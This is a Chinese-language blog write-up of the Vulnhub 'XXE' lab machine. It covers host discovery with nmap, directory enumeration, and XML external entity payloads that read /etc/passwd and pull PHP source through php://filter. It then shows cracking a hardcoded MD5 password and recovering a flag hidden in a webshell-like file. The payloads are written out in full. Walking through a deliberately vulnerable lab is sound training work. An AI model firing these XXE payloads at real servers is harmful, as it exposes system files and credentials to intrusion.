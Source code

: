 ```yaml
---
layout: post
title: Vulnhub靶机实操-XXE
tags: [技能]
comments: true
---
```


XXE靶机.

> 1.主机发现

```
nmap -sS 192.168.74.1/24
```
- 就是192.168.74.158没错了，开放了80端口。

![xxe-1](https://cijian00.github.io/img/Vulnhub/XXE/1.png)

>2.前期信息收集

- 访问192.168.74.158，就是apache默认页。

![xxe-2](https://cijian00.github.io/img/Vulnhub/XXE/2.png)

- 御剑扫目录。

![xxe-3](https://cijian00.github.io/img/Vulnhub/XXE/3.png)

- 访问robots.txt。存在/xxe/路径，admin.php。

![xxe-4](https://cijian00.github.io/img/Vulnhub/XXE/4.png)

- ip/xxe为登录界面。

![xxe-5](https://cijian00.github.io/img/Vulnhub/XXE/5.png)

- admin.php在/xxe/目录下。ip/xxe/admin.php同样是登录界面。

![xxe-6](https://cijian00.github.io/img/Vulnhub/XXE/6.png)

> 3.靶机测试

- 正常访问查看回显。

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.74.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.74.158/xxe/
Content-Type: text/plain;charset=UTF-8
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>123</password></root>
```

- 有回显。

```
HTTP/1.1 200 OK
Date: Mon, 27 May 2019 05:43:44 GMT
Server: Apache/2.4.27 (Ubuntu)
Content-Length: 32
Connection: close
Content-Type: text/html; charset=UTF-8

Sorry, this admin not available!
```

- 文件读取。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-7](https://cijian00.github.io/img/Vulnhub/XXE/7.png)

- 查看admin.php。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-8](https://cijian00.github.io/img/Vulnhub/XXE/8.png)

- base64解密，源码分析，存在硬编码密码，登录密码用md5解密即可。

![xxe-9](https://cijian00.github.io/img/Vulnhub/XXE/9.png)

![xxe-10](https://cijian00.github.io/img/Vulnhub/XXE/10.png)

- 登录admin.php。

![xxe-11](https://cijian00.github.io/img/Vulnhub/XXE/11.png)

- 点击链接，跳转至/xxe/flagmeout.php。
- 显示是空白页，查看页面源代码。

![xxe-12](https://cijian00.github.io/img/Vulnhub/XXE/12.png)

- 先进行base32解密，再进行base64解密。
- 可得/etc/.flag.php。

![xxe-13](https://cijian00.github.io/img/Vulnhub/XXE/13.png)

- 查看/etc/.flag.php。

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/.flag.php">
]>
<root><name>&admin;</name><password>1</password></root>
```
- base64解密之后看着像无特征码的PHP Webshell。

![xxe-14](https://cijian00.github.io/img/Vulnhub/XXE/14.png)

- 保存至本地环境，命名为flag.php。前后分别添加上```<?php   ?>```。
- 再访问flag.php可得flag。

![xxe-15](https://cijian00.github.io/img/Vulnhub/XXE/15.png)

